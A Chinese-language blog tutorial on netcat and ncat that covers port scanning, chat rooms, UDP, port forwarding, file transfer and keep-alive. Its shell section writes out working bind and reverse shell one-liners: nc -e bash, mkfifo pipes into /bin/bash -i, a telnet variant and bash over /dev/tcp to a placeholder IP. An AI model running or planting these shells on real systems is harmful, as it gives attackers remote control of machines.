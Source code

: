 ```yaml
---
layout: post
title: NC 的简单应用
description: 瑞士军刀 nc, 你的想象力是局限 nc 的瓶颈
category: opinion
---
```


NC ，不仅代表是 netcat ，还有其加强版 ncat 。

NetCat 是 GNU 开源的网络请求工具， Ncat 是面向21世纪的 netcat，是 Nmap 工具集的一部分，nc 可以用来 读/写 TCP/UDP 网络连接。

nc 不仅可以请求，还能监听 (-l) 网络连接, 不仅支持 TCP 协议，还支持 UDP 协议(-u)，不仅可以在 ipv4 (-4) 网络下进行，还支持 ipv6 (-6)。

```
brew install nmap
```

或者

```
yum install nc
```

即可安装 ncat

## 端口扫描

nc 一开始也最基础的功能，端口连接扫描。

TCP `nc -zv addr port`

UDP `nc -zvu addr port`

> 连接 udp 端口有些不准

## 网络聊天室

nc 主要用来请求并保持一个网络连接，也可以用来监听一个端口。

比如打开一个 TCP 连接，发送 HTTP 协议请求。 `nc IP_address port_numbe` 连接模式。

```
> nc 127.0.0.1 5002
HEAD / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:21 GMT
Connection: Keep-Alive

GET / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:30 GMT
Connection: Keep-Alive

<!DOCTYPE html>
<html>
<head>
...
```

使用 `nc -l IP_address port_numbe` 监听模式。

一个终端使用 `nc -l 127.0.0.1 8090` 开启监听，一个终端使用 `nc 127.0.0.1 8090` 保持连接，即可进行聊天室功能。

但是这样只能点对点双方交流，不能进行多方交流，且建立连接之后任意一方断开连接，则双方都会终止。在 ncat 中新增了订阅者模式，可以由一个 server 提供服务，多个 client 之间相互交流，这样就够搭建一个完整的即时通讯聊天室。

启动 server

```
ncat -l 8888 --broker
```

然后使用多个 client 连接即可。

![ncat_chatroom.png](/images/ncat_chatroom.png)

## UDP 协议支持

开启 UDP 端口监听 `ncat -l -u 8999`

可以使用 `netstat` 查看端口是否开放

```
netstat -tunlp|grep 8999
```

或者使用 netstat 进行通信，建立 UDP 的聊天室。

```
nc -u 127.0.0.1 8999
```

## 反向代理

除了 nginx 可以做反向代理，nginx 也可以实现一个简单的反向代理服务。

> 其实就是端口转发

```
ncat -l 8089| ncat 127.0.0.1 5002
```

这样只能单向代理，即发往 8089 的流量会被代理至 5002 端口上，但是 5002 端口返回的数据，不能通过 8089 再继续返回给我们。

```
mkfifo /tmp/fifo
cat /tmp/fifo | nc 127.0.0.1 5002 | nc -l 9000 > /tmp/fifo
```

双向代理，亲测 HTTP, MySQL 转发可用。

或者这样

```
ncat -l 8068 -c 'ncat 127.0.0.1 5002
```

## shell

nc 的一个经典应用，分为正向 shell 和反向 shell，分别表示客户端控制服务器，和服务器控制客户端。

### 正向 shell

服务器上 (需要有公网地址)

```
nc -l -p 5555 -t -e /usr/bin/bash
```

客户端

```
nc [host] 5555
```

即可在客户端操纵服务器。

也可以操作 Windows `nc -l -p 5555 -t -e cmd.exe`

正向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 8000 > /tmp/fifo
```

### 反向 shell

在客户端机器上 (需要有公网地址)

```
nc -lp 5555
```

服务器上

```
nc -t -e /usr/bin/bash [ip] 5555
```

即可在客户端操纵服务器。

反向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc [ip] 8001 > /tmp/fifo
```

用 Telnet 也可以 `rm bd;mkfifo bd;cat bd|/bin/sh -i 2>&1|telnet  <target IP> <port> >bd`

甚至是 bash `bash -c "bash -i &>/dev/tcp/<target IP>/<port> 0>&1`

正向 shell 与反向 shell 的区别就在与被操纵者有没有公网地址。

## 传输文件

接收端

```
ncat -lp 3333 > 1.mp4
```

发送端

```
ncat -nv  --send-only [ip] 3333 < 1.mp4
```

或者先起发送端

```
ncat --send-only -lp 3333 <a.mp4
```

再起接收端

```
nc -nv [ip] 3333 >a.mp4
```

## 保持连接

在 nc shell 中，当客户端连接断掉之后就会自动终止，可以通过加参数 `-k` 来保持连接。

正向 shell

```
nc -l -p 5555 -t -e /usr/bin/bash -k
```
